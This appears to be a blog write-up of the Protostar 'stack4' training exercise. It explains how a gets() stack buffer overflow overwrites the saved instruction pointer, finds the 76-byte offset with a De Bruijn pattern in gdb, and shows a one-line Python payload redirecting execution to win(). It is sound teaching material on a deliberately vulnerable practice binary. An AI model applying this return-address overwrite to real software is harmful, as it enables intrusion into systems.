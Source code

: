 ```yaml
---
title: Protostar Writeup - stack4
updated: 2018-08-01 21:00
---
```


## Protostar - stack4

Moving on to stack4. This is a really good one. It will test your knowledge of how function calls work.
Before moving forward, I strongly recommend that you try this one yourself, it's not that easy though :).
Here's the code we're given:

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
    printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
    char buffer[64];

    gets(buffer);
}
```

This code is similar to the previous challenge code, with the exception of the function pointer.
Again our attack plan will target the `gets()` function. First let's debug this code and see what we can find.

```shell
(gdb) set disassembly-flavor intel
(gdb) disass main
Dump of assembler code for function main:
0x08048408 <main+0>:	push   ebp
0x08048409 <main+1>:	mov    ebp,esp
0x0804840b <main+3>:	and    esp,0xfffffff0
0x0804840e <main+6>:	sub    esp,0x50
0x08048411 <main+9>:	lea    eax,[esp+0x10]
0x08048415 <main+13>:	mov    DWORD PTR [esp],eax
0x08048418 <main+16>:	call   0x804830c <gets@plt>
0x0804841d <main+21>:	leave
0x0804841e <main+22>:	ret
```

Not much to work with here, other than the `gets()` function. If you take a look at the task description, it's clear that we somehow have to change the value of the EIP register.
So what is the EIP register? EIP stands for the Extended Instruction Pointer. For simplicity sake I am going to refer to it as just Instruction Pointer or IP for short. What's so special about this register?
The IP is responsible for storing the address of the next instruction to be executed. This should make it intuitive as to why we want to override the EIP value. If it's not, I'll try my best to explain it to you.

Say we are executing some assembly instructions located at location 0x01, then the Instruction Pointer points to 0x02. That's it, that's all the Instruction Pointer does, stores the address of the next instruction to be executed.
Now if we can somehow modify the EIP's contents, we can get our program to jump to a location of our choice and continue execution from that location. But this doesn't make sense, the registers are located on the CPU, and the overflow occurs on the stack.
So how does EIP get modified in the first place? If you dig a little deeper, and look at the `call` instruction of assembly, you'll see that it 'pushes' the value of EIP onto the stack(solves the mystery!), and when the function returns, the value of EIP is restored.
Makes sense since we need to continue executing code after a function call so we need some way of storing that location, and the stack is where we do this storing.

Now unlike the previous programs, you can't really predict where the EIP will be on the stack, it's more of trial and error. With this knowledge in mind, let's get to work.

First let's get the offset of the EIP. I like using [De Brujin patterns](https://en.wikipedia.org/wiki/De_Bruijn_sequence) for this. You can create your own patterns.
I create mine using [pwntools](http://docs.pwntools.com/en/stable/). I'm using the debugger to get the address, because without it, all you see is a 'Segmentation Fault' which is not very helpful.

```shell
(gdb) set disassembly-flavor intel
(gdb) disass main
Dump of assembler code for function main:
0x08048408 <main+0>:	push   ebp
0x08048409 <main+1>:	mov    ebp,esp
0x0804840b <main+3>:	and    esp,0xfffffff0
0x0804840e <main+6>:	sub    esp,0x50
0x08048411 <main+9>:	lea    eax,[esp+0x10]
0x08048415 <main+13>:	mov    DWORD PTR [esp],eax
0x08048418 <main+16>:	call   0x804830c <gets@plt>
0x0804841d <main+21>:	leave
0x0804841e <main+22>:	ret
End of assembler dump.
(gdb) r
Starting program: /opt/protostar/bin/stack4
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae

Program received signal SIGSEGV, Segmentation fault.
0x63413563 in ?? ()
```

So we managed to change the EIP to `0x63413563`. Calculating the offset, we see that the EIP is located on the stack at a distance of 76 bytes.
This becomes our padding. That's one half of the job done. Now we need to get the location of the `win()` function.

```shell
(gdb) p win
$1 = {void (void)} 0x80483f4 <win>
```

This is the address of the `win()` location. Combining this address with the padding is all we need to exploit this binary.
Let's craft and use our exploit.

```shell
$ python -c "print 'A'*76 + '\xf4\x83\x04\x08'" | ./stack4
code flow successfully changed
Segmentation fault
```

Success! The reason we get a segmentation fault is because we didn't use an offical 'call' instruction. And EIP restores garbage when it actually returns from the `win()` function.

### Sites

[Protostar](https://exploit-exercises.com/protostar/)
[Phrack](http://phrack.org/issues/49/14.html)
